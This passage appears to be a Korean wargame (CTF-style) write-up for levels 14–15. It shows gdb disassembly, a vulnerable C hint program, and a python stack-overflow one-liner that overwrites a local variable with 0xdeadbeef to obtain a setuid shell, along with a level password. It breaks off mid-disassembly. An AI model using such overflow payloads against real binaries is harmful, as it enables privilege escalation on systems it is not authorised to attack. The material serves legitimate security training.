```
0x080484b9 <main+41>:	push   0xc17
0x080484be <main+46>:	push   0xc17
0x080484c3 <main+51>:	call   0x8048380 <setreuid>
0x080484c8 <main+56>:	add    esp,0x10
0x080484cb <main+59>:	sub    esp,0xc
0x080484ce <main+62>:	push   0x8048548
0x080484d3 <main+67>:	call   0x8048340 <system>
0x080484d8 <main+72>:	add    esp,0x10
0x080484db <main+75>:	leave
0x080484dc <main+76>:	ret
0x080484dd <main+77>:	lea    esi,[esi]
```

### 4. exploit code
(python -c 'print "A"*40+"\xef\xbe\xad\xde\x00"';cat) | /home/level14/attackme

ebp-56 지점에서 ebp-16까지 값을 채우고(A*40), ebp-16지점에서 4바이트는 0xdeadbeef로 값을 변경해준다. 이후 1바이트는 문자열 종료를 의미하는 null을 넣는다. 이후 fget의 EOF를 cat으로 받으면서 정상적으로 쉘 획득이 가능하도록 한다.

'xterm-256color': unknown terminal type.
Level15 Password is "guess what".


## Level15

### 1. Directory info
-rwsr-x---    1 level16  level15     13801 12월 10  2002 attackme

-rw-r-----    1 root     level15       185 12월 10  2002 hint

drwxr-xr-x    2 root     level15      4096  2월 24  2002 public_html

drwxrwxr-x    2 root     level15      4096  1월 11  2009 tmp

### 2. hint
```
#include <stdio.h>

main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```
### 3. gdb attackme
```asm
0x08048490 <main+0>:	push   ebp
0x08048491 <main+1>:	mov    ebp,esp
0x08048493 <main+3>:	sub    esp,0x38
; esp - 56
0x08048496 <main+6>:	sub    esp,0x4
; esp - 4
0x08048499 <main+9>:	push   ds:0x8049664
; stdin
0x0804849f <main+15>:	push   0x2d
; 45
0x080484a1 <main+17>:	lea    eax,[ebp-56]
; move eax ebp-56
```
